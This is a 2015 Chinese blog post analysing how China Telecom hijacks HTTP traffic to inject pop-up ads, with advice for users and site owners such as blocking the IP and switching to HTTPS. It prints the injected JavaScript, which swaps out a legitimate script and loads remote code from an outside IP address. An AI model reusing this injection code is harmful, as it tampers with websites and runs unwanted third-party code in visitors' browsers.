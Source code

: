 ```yaml
---
layout: post
title:  "中国电信劫持HTTP流量强插广告"
date:   2015-04-15 22:50:35
categories: Web
---
```


## 现象

家里装的宽带是浙江电信的，在平时用浏览器访问网页时，网页右下角经常弹出浮动广告。常见的广告是这个样子的，很违和吧？

![弹出广告截图](/images/20150415/01.png)

该广告有几个特点：

* 不管是中国还是外国网站，都有可能弹广告。
* 有些知名网站似乎没有弹过广告，比如新浪微博、Stack Overflow。
* 对某一个网站，只在每天第一次访问时弹广告，显示过一次之后，再刷新网页就不会出现了。第二天访问时还可能弹广告。
* 所有的HTTPS站都没有广告。

## 原理分析

### 广告是谁加的

一开始看过几次广告之后，以为是被访问网站自己加的广告联盟之类的代码，第一反应当然是用浏览器的去广告插件屏蔽。通过Chrome查看DOM，发现广告的嵌入代码如下，

```HTML
<script src="http://116.252.178.232:9991/ad.0.js?v=3.9411&amp;sp=9999&amp;ty=dpc&amp;sda_man=XFpdU1RJWFdZXlE=" type="text/javascript" id="bdstat"></script>
```

一般是出现在`</body>`之前，即HTML body的最后。服务器地址116.252.178.232属于广西电信。

当在几个国外网站上弹出了同样的中文广告后，我确定这不是网站自己加的广告代码。Google一下这个IP地址，普遍反映这是ISP劫持HTTP流量，插入的广告。

这种行为更准确的名称叫“[网络直投广告](http://baike.baidu.com/view/6261865.htm)”，百度百科是这样介绍的。

> 网络直投广告是基于中国电信宽带接入网，通过对用户上网行为的分析，在用户上网时、或正在上网的过程中，系统主动、定向、策略性、个性化的向用户推送广告宣传信息。并可以根据用户当前浏览的网站类型，匹配对应的行业关键字，根据行业关键字向用户推送动画、声音、视频、游戏等多媒体交互式广告内容。关键字分类：电脑、通讯、汽车、财经、医药、房产、旅游、教育、人才、美容、电影、游戏、数码等。

所以，这段代码是ISP强行插入的网络直投广告。由于用户访问所有网络都要经过ISP，ISP就有机会给任意网站加广告，把整个网络作为工具为自己牟利。搜索发现不光是电信，联通也有类似行径。某年315还曝光过，之后各地ISP有所收敛，但现在我家浙江电信还是每天都会弹。

### 如何加的广告

用浏览器访问刚才的广告嵌入代码，`http://116.252.178.237:9991/ad.0.js`内容经过格式化后如下，

```Javascript
var bcdata_sp = "";
var sda_man = "";
var bcdata_src = "0";
(function () {
    var a = function (h, f) {
        try {
            var d = document.createElement("span");
            d.innerHTML = h;
            api.writeO(d, f)
        } catch (g) {
            document.write(h)
        }
    };
    var c = function (d, f) {
        if (f) {
            f.appendChild(d);
            f.parentNode.appendChild(d)
        } else {
            var g = f || document.all || document.getElementsByTagName("*");
            var f = g[g.length - 1]
        }
        f.parentNode.appendChild(d)
    };
    var b = document.createElement("script");
    b.type = "text/javascript";
    b.src = "http://116.252.178.237:9991/main.js?ver=v48";
    c(b)
})();
```

这段引导代码在DOM上添加另一个script节点，内容为`http://116.252.178.237:9991/main.js`。`main.js`是弹出广告真正的创建者。

那么`ad.0.js`是何时插入的呢？在不同的网站上，`ad.0.js`节点出现的位置不固定，不一定总在`</body>`之前。继续用Chrome的Network工具查看每个请求的返回数据，发现网页HTML是正常的，并不包含`ad.0.js`节点。推测是某个JS被篡改了，执行的时候在DOM上又插入了广告引导代码节点。

逐个检查`.js`文件的请求，寻找包含“116.252.178.232”的文件。以某网站为例，发现`flowplayer.min.js`文件的内容不正常。该文件是网页上的视频播放器，托管在七牛CDN上。文件的URL是`http://***.qiniudn.com/static/player/flowplayer.min.js`，Chrome里显示返回的内容是这样的，

```Javascript
(function () {
    o = "http://***.qiniudn.com/static/player/flowplayer.min.js?";
    sh = "http://116.252.178.232:9991/ad.0.js?v=3.9411&sp=9999&ty=dpc&sda_man=XFpdU1RJWFdZXlE=";
    w = window;
    d = document;

    function ins(s, dm, id) {
        e = d.createElement("script");
        e.src = s;
        e.type = "text/javascript";
        id ? e.id = id : null;
        dm.appendChild(e);
    };
    p = d.scripts[d.scripts.length - 1].parentNode;
    ins(o, p);
    ds = function () {
        db = d.body;
        if (db && !document.getElementById("bdstat")) {
            if ((w.innerWidth || d.documentElement.clientWidth || db.clientWidth) > 1) {
                if (w.top == w.self) {
                    ins(sh, db, "bdstat");
                }
            }
        } else {
            setTimeout("ds()", 1500);
        }
    };
    ds();
})();
```

可以看到该文件的返回数据完全是被替换过的。这段代码首先在DOM上插入了另外一个`<script>`节点，用于重新加载真正的`flowplayer.min.js`文件。然后创建了广告引导代码节点。在Chrome中，看到`flowplayer.min.js`文件有两次请求，第二次返回的是正确的内容。

新插入的`<script>`位置在document最后一个script的父节点，由于改变了JS文件的执行顺序，所以理论上有可能影响被篡改的网页的正常功能。

关于这套广告系统具体如何选择篡改哪个JS请求，我没有进一步的调查。

### 其他劫持类型

我这里分析的只是浙江电信在目前阶段采用的插广告方法。网上能看到ISP采用的一些旧方法，包括DNS劫持、iframe劫持。

DNS劫持是，例如用户访问Google时，跳转到一个全是广告的页面。还有当访问一个无法解析的网址时，跳转到电信的网址导航站189so.cn，导航站当然是很赚钱的。

iframe劫持也是劫持HTTP流量，将被访问的网页整个包在一个iframe中加载，外面的伪造的页面插弹出广告。用户看到的效果跟本文开头的截图类似。

## 屏蔽方法

### 用户

作为普通用户，一般的建议是打电话给ISP投诉，把客服骂一顿，让ISP取消对你家账号的“特殊服务”。我没试过，也不想试，我得留着广告好看看ISP又采取了什么卑劣手段。

作为普通用户，还可以找个认识的程序员来帮助解决此事。

作为程序员，屏蔽这种广告不是难事。首先用浏览器开发者工具在找出广告引导代码的URL，如果是IP地址，就用路由器或防火墙软件封住该IP的访问；如果是域名，就修改hosts把该域名解析到127.0.0.1即可。

注意这样仅靠屏蔽IP/域名并不是真正的屏蔽，仍然有副作用。比如说网页会由于加载不到广告JS而一直处于转菊花状态，经过篡改的网页有可能功能不正常。前人给出了一些复杂的方法屏蔽广告，基本上都要自己搭代理服务器。我觉得太过复杂，不值得。在此列出几个参考方法：

* [Tomato解决电信广告劫持](http://maskv.com/technology/289.html)
* [如何对抗 ISP HTTP hijacking (阻止推送广告)](http://www.linuxsir.org/bbs/thread367305.html)
* [防治运营商HTTP劫持的终极技术手段](http://www.williamlong.info/archives/4181.html)

### 网站所有者

作为网站所有者，有没有办法彻底去除ISP强插到你网站上的广告呢？这样不管你的用户有没有屏蔽广告的能力，在访问网站时都不会看到恼人的广告。

第一个可行的办法是HTTPS化，HTTPS请求无法简单的伪造。目前由于网络安全的形势不好，很多网站都做了全站HTTPS化。虽然有一些开销，这毕竟是个最有效的办法。

目前ISP的做法是只劫持JS文件，那一个简便的方法是JS全部放到七牛CDN上，利用[七牛提供的HTTPS服务](http://kb.qiniu.com/https-support)，只把网页上的JS地址换成HTTPS的，ISP就无法伪造了。（经过在某网站上的试验，该方法目前有效。）

另一个可能的方法是在页面上增加JS代码，检测ISP插入的节点并删掉。这种方法的困难在于ISP插广告是分地区的，而且将来会升级的。作为网站所有者，只能针对已知的情况做针对处理，不一定总能有效。
